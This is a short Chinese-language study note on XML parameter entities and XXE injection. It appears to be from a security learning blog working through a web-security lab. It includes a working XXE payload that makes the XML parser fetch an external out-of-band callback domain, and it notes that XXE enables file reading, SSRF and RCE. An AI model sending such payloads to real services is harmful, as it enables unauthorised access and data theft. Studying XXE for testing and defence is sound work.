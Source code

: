 参数实体可以理解为DTD内部的局部变量.
```xml
<!ENTITY % 实体名称 "实体的值">
``` 
在某些时候,无法在xml数据结构中使用实体,这时候可以使用参数实体来触发外部实体解析.   
![](2022-11-01-11-31-45.png)  
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://je1ulpppm7ftdo6vmgcv1lkg57bxzm.oastify.com"> %xxe; ]>
<stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>s'l
```
### 外部实体注入
XXE的原理也是因为DTD外部实体的特性导致可以文件读取,SSRF,RCE等.  
在不同的语言中,URI支持的外部实体协议有所不同.  
![](2022-11-01-10-38-42.png)  
在php中,某些协议需要特定的扩展支持.  